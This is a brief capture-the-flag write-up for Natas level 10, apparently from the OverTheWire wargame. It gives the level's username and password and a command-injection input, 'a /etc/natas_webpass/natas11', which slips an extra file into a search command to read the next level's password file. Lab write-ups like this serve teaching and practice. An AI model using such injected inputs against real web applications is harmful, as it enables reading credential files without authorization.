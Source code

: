 # Username
natas10

# Password
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

# Web Vulnerbility
Command Injection with filter bypass.

# Method of Solve
Use the command but access password
```
a /etc/natas_webpass/natas11
```
